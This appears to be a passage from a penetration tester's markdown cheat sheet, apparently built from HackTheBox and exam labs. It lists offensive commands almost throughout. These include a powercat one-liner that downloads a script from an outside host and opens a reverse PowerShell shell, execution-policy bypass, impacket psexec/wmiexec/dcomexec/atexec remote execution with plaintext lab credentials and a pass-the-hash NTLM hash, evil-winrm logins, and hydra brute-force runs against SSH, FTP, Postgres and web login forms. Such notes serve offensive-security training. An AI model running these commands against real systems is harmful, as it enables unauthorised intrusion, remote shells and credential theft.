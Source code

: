 ```powershell
# powercat
cd /usr/share/powershell-empire/empire/server/data/module_source/management/
powershell.exe -nop -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.185/powercat.ps1');powercat -c 192.168.45.185 -p 4444 -e powershell"

# Unrestricted
powershell -ep bypass
Set-ExecutionPolicy Bypass -Force -Scope Process
```
### Client Soft
```bash
# SMB
impacket-smbclient intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876@10.10.10.248
smbclient -U tyler \\\\test\\share
smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234

# psexec
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
# wmiexec
impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
# dcomexec
impacket-dcomexec -object MMC20 active.htb/Administrator:Ticketmaster1968@10.10.10.100 'powershell -nop -w hidden -e' -silentcommand
impacket-dcomexec -object ShellWindows active.htb/Administrator:Ticketmaster1968@10.10.10.100 'powershell -nop -w hidden -e' -silentcommand -no-output
impacket-dcomexec -object ShellBrowserWindow active.htb/Administrator:Ticketmaster1968@10.10.10.100 'powershell -nop -w hidden -e' -silentcommand

# evil-winrm
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
# atexec
impacket-atexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 'powershell -nop -w hidden -e'

## double hop
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\backup', $SecPassword)
get-domainuser -spn -credential $Cred
```


# Credential Access
## Brute Force
```bash
# hydra
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.50.202
hydra -L /usr/share/seclists/Passwords/UserPassCombo-Jay.txt -P /usr/share/seclists/Passwords/UserPassCombo-Jay.txt ftp://192.168.50.202 -f
hydra  -C /usr/share/seclists/Passwords/Default-Credentials/postgres-betterdefaultpasslist.txt postgres://192.168.175.47 -t 4

# hydra for HTTP
hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt 192.168.172.61 http-get /login -f
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:usr=user&pwd=^PASS^:Login failed"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.172.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^&password=^PASS64^:F=403' -f

```